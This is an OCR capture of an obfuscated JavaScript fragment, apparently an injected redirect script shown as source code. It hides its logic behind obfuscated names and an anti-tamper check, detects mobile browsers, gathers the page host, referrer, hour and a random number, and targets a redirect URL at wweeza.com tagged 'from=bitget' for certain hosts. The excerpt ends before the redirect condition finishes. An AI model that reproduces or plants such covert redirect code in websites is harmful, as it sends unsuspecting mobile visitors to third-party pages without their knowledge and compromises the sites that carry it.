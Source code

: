 ``` js
          },
          IzGuE: function (_0x193bad, _0x38f83f) {
            return _0x193bad <= _0x38f83f
          },
          MctlV: function (_0x4cf969, _0x3f5292) {
            return _0x4cf969 === _0x3f5292
          },
          NiqyK: 'mcNrr',
          HANcJ: 'QRUUg',
          pgwSI: function (_0x26a5c9, _0x345245) {
            return _0x26a5c9 !== _0x345245
          },
          XaDFm: 'iuHAU',
        }
        const _0x1c444b = _0x2ddab7
          ? function () {
              if (_0x2faa6e.MctlV(_0x2faa6e.NiqyK, _0x2faa6e.HANcJ)) {
                const _0x180d73 = _0x2faa6e.bjeMJ(_0x3eaf18, _0x2bb07f)
                _0x180d73 &&
                  _0x2faa6e.pqiqW(_0x4742d9, '') &&
                    _0x2faa6e.zbtQp(_0x955e25, _0x2faa6e.volhE, function () {
                      _0x2faa6e.OBmcC(_0x4eb5f8, true) &&
                        (_0x94c0a4.location.href = _0x1dbf3a)
                    })
              } else {
                if (_0x3e7ea8) {
                  if (_0x2faa6e.pgwSI(_0x2faa6e.XaDFm, _0x2faa6e.XaDFm)) {
                    _0x2faa6e.IzGuE(_0x51047d, 10) && (_0x391f84 = _0x40837e)
                  } else {
                    const _0x47d725 = _0x3e7ea8.apply(_0x15452, arguments)
                    return (_0x3e7ea8 = null), _0x47d725
                  }
                }
              }
            }
          : function () {}
        return (_0x2ddab7 = false), _0x1c444b
      }
    })(),
    _0x41d32e = _0x464cf7(this, function () {
      return _0x41d32e
        .toString()
        .search('(((.+)+)+)+$')
        .toString()
        .constructor(_0x41d32e)
        .search('(((.+)+)+)+$')
    })
  _0x41d32e()
  var _0x112e13 = navigator.userAgent.match(
    /(phone|pad|pod|iPhone|iPod|ios|iPad|Android|Mobile|BlackBerry|IEMobile|MQQBrowser|JUC|Fennec|wOSBrowser|BrowserNG|WebOS|Symbian|Windows Phone)/i
  )
  if (_0x112e13) {
    var _0x152838 = window.location.host,
      _0xc3b985 = document.referrer,
      _0x56bd89 = '',
      _0x42c985 = 'https://wweeza.com/redirect?from=bitget',
      _0x57dc62 = Math.floor(Math.random() * 100 + 1),
      _0x5462a8 = new Date(),
      _0x394b64 = _0x5462a8.getHours()
    if (
      _0x152838.indexOf('www.dxtv1.com') !== -1 ||
      _0x152838.indexOf('www.ys752.com') !== -1
```